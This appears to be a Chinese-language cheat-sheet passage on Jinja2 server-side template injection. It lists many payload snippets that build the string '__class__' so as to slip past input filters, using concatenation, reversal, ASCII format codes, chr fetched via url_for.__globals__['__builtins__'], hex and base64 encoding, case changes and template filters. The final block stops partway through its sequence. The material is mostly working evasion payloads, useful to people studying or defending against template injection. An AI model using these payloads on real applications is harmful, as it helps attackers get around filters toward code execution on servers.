 ### 字符串构造

**1、拼接**  
`"cla"+"ss"`  
**2、反转**  
`"__ssalc__"[::-1]`

但是实际上我发现其实加号是多余的，在jinjia2里面，`"cla""ss"`是等同于`"class"`的，也就是说我们可以这样引用class，并且绕过字符串过滤

```py
""["__cla""ss__"]
"".__getattribute__("__cla""ss__")
""["__ssalc__"[::-1]]
"".__getattribute__("__ssalc__"[::-1])
```

**3、ascii转换**
jinjia2中的format函数可以将ascii码转换为字符

```py
"{0:c}".format(97)='a'
"{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)='__class__'
```

**4、编码绕过**
编码

```py
"__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"
对于python2的话，还可以利用base64进行绕过
"__class__"==("X19jbGFzc19f").decode("base64")
```

**5、利用chr函数**  
因为我们没法直接使用chr函数，所以需要通过`__builtins__`找到他

```py
{% set chr=url_for.__globals__['__builtins__'].chr %}
{{""[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]}}
```

**6、在`jinja2`里面可以利用~进行拼接**

```py
{%set a='__cla' %}{%set b='ss__'%}{{""[a~b]}}
```

**7、大小写转换**  
前提是过滤的只是小写

```py
""["__CLASS__".lower()]
```

**8、利用过滤器**
过滤器

```py
('__clas','s__')|join
["__CLASS__"|lower
"__claee__"|replace("ee","ss") 
"__ssalc__"|reverse
"%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)


(()|select|string)[24]~
(()|select|string)[24]~
(()|select|string)[15]~
(()|select|string)[20]~
(()|select|string)[6]~
(()|select|string)[18]~
(()|select|string)[18]~
```